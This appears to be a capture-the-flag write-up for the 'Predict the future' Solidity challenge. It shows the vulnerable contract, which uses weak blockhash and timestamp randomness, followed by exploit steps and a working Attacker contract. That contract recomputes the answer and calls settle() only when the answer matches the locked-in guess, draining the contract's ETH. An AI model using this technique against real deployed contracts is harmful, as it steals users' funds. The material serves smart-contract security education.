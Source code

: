 # Predict the future

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```
## Goal

Guess the number to win and get all the ETH from the smart contract

## Exploit

1. create Attacker contract, and create instance from the PredictTheFutureChallenge contract inside the Attacker contract
2. call lockInGuess() function from Attacker contract, this function will make external call to the lockInGuess() function inside PredictTheFutureChallenge contract, with 1 as argument for the n parameter
  <ul>
    <li>the guessing number should be in range from 0 to 9, since the equation for getting the answer uses % 10</li>
  </ul>
3. this step would probably need to be repterd: call takeTheMoney() external function inside Attacker, here we check if the answer will be equal to the previously locked in guess
  <ul>
  <li>if it is we call the seetle() function from PredictTheFutureChallenge contract</li>
  <li>if it is not we revert the transaction</li>
  </ul>
  
## Attacker contract code

```
contract Attacker {
  PredictTheFutureChallenge private predictFuture;

  function Attacker(address _predictFuture) public {
    predictFuture = PredictTheFutureChallenge(_predictFuture);
  }

  function lockInGuess() external payable {
    predictFuture.lockInGuess.value(msg.value)(1);
  }

  function takeTheMoney() external {
    uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
    require(answer == 1);
    predictFuture.settle();
  }
}
```